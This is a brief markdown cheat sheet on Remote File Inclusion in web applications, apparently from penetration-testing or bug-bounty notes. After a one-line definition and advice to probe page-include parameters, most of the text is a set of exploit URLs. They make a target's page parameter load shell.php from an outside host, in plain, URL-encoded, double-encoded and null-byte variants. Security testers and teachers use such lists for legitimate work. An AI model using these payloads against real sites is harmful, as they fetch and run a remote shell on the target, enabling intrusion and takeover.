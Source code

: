## Remote File Inclusion (RFI)

## Introduction
Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts.

## Where to find
- Any endpoint that includes a file from a web server. For example, `/index.php?page=index.html`

## How to exploit
1. Basic payload
```
http://example.com/index.php?page=http://daffa.info/shell.php
```

2. URL encoding
```
http://example.com/index.php?page=http%3A%2F%2Fdaffa.info%2Fshell.php
```

3. Double encoding
```
http://example.com/index.php?page=http%253A%252F%252Fdaffa.info%252Fshell.php
```

4. Using Null Byte (%00)
```
http://example.com/index.php?page=http://daffa.info/shell.php%00
```
